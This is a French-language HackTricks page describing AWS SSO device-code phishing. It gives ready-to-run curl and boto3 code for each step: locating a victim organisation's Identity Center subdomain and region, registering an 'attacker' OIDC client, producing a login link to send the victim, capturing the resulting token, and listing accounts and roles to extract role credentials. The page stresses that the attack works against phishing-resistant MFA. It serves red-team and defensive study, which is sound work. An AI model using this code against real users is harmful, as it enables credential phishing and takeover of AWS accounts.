 # AWS - Centre d'identité et Enumération SSO non authentifiée

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert en équipe rouge HackTricks AWS)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Phishing de code de périphérique AWS

Initialement proposé dans [**cet article de blog**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), il est possible d'envoyer un **lien** à un utilisateur utilisant AWS SSO qui, si l'**utilisateur accepte**, permettra à l'attaquant d'obtenir un **jeton pour se faire passer pour l'utilisateur** et accéder à tous les rôles auxquels l'utilisateur peut accéder dans le **Centre d'identité**.

Pour effectuer cette attaque, les prérequis sont les suivants :

* La victime doit utiliser le **Centre d'identité**
* L'attaquant doit connaître le **sous-domaine** utilisé par la victime `<victimsub>.awsapps.com/start`

Avec ces informations, l'**attaquant pourra envoyer un lien à l'utilisateur** qui, s'il est **accepté**, accordera à l'**attaquant l'accès au compte utilisateur AWS**.

### Attaque

1. **Trouver le sous-domaine**

La première étape de l'attaquant est de découvrir le sous-domaine utilisé par l'entreprise victime dans son Centre d'identité. Cela peut être fait via **OSINT** ou **deviner + BF** car la plupart des entreprises utiliseront leur nom ou une variation de leur nom ici.

Avec ces informations, il est possible de connaître la région où le Centre d'identité a été configuré avec :
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Générer le lien pour la victime & Envoyer**

Exécutez le code suivant pour générer un lien de connexion AWS SSO afin que la victime puisse s'authentifier.\
Pour la démonstration, exécutez ce code dans une console Python et ne la quittez pas car vous aurez besoin de certains objets plus tard pour obtenir le jeton :
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
3. **Attendre que la victime l'accepte**

Si la victime était déjà connectée à AWS, elle devra simplement accepter d'accorder les autorisations. Si elle ne l'était pas, elle devra se connecter, puis accepter d'accorder les autorisations.\
Voici à quoi ressemble la fenêtre contextuelle de nos jours :

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Obtenir le jeton d'accès SSO**

Si la victime a accepté la fenêtre contextuelle, exécutez ce code pour générer un jeton SSO en se faisant passer pour l'utilisateur :
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
Le jeton d'accès SSO est **valide pendant 8 heures**.

5. **Impersonate the user**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Hameçonnage du MFA impiratable

Il est amusant de savoir que l'attaque précédente **fonctionne même si un "MFA impiratable" (webAuth) est utilisé**. Cela est dû au fait que le **flux de travail précédent ne quitte jamais le domaine OAuth utilisé**. Contrairement à d'autres attaques de hameçonnage où l'utilisateur doit usurper le domaine de connexion, dans le cas du flux de code de l'appareil, un **code est connu par un appareil** et l'utilisateur peut se connecter même sur une machine différente. Si l'utilisateur accepte la demande, l'appareil, simplement en **connaissant le code initial**, pourra **récupérer les identifiants** de l'utilisateur.

Pour plus d'informations à ce sujet, [**consultez cet article**](https://mjg59.dreamwidth.org/62175.html).

### Outils Automatiques

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## Références

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
